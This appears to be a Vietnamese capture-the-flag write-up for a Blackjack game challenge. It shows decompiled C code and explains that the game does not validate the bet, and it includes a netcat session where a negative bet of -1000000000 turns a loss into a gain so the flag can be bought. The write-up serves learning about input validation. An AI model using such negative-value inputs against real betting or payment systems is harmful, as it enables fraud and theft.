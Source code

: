 ```c
      printf("\x1B[32mYou win! Your total: %d | Dealer total: %d\n\x1B[0m", playerTotal, dealerTotal);
      *playerDogeCoinPtr += *betAmount;
    }
  }
  else
  {
    printf("\x1B[32mDealer busts! You win.\n\x1B[0m");
    *playerDogeCoinPtr += *betAmount;
  }
  return 0LL;
}
```

Ở hàm này, sẽ mô phỏng lại khi ta chơi `Blackjack`, và khi ta để ý ở đây

```c
    if ( playerTotal > 21 )
    {
      printf("\x1B[31mBust! You lose.\n\x1B[0m");
      *playerDogeCoinPtr -= *betAmount;
      return 0LL;
    }
```

Nếu ta thua, tiền gốc của ta `DogeCoin` sẽ giảm theo số lượng tiền cược mà ta đã đặt ra, nhưng sẽ ra sao nếu ta nhập tiền cược là số ấm? Điều này sẽ làm cho logic mong muốn của chương trình bị sai, và khi này một phép toán `- - = +` sẽ xảy ra, nên lúc này ta sẽ không còn bị trừ tiền gốc nữa, và với số tiền được gia tăng mặc dù ta vãn thua, ta sẽ dễ dàng có được `FLAG` với `case 2`

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/blackjack
$ nc challenge.ctf.ehc-fptu.club 20760

Welcome to the Black Jack game!
You start with 1000 Dogecoins.
You can buy the flag for 99999999 Dogecoins.
In this game, we use 6 decks of cards like in a real casino.
Deck is reshuffled when more than half of the cards are played.
Dealer hits on 16 and stands on 17.
Use your favourite strategy to win!
Good luck!


--- Black Jack Menu ---
1) Play Black Jack
2) Buy Flag (Cost: 99999999 Dogecoins)
3) Check Balance
4) Show Deck Info
5) Exit
Your choice: 1
Enter your bet: -1000000000

Dealer shows: 8
Your total: 20
Hit (h) or Stand (s)? h
You drew 2, total = 22
Bust! You lose.

--- Black Jack Menu ---
1) Play Black Jack
2) Buy Flag (Cost: 99999999 Dogecoins)
3) Check Balance
```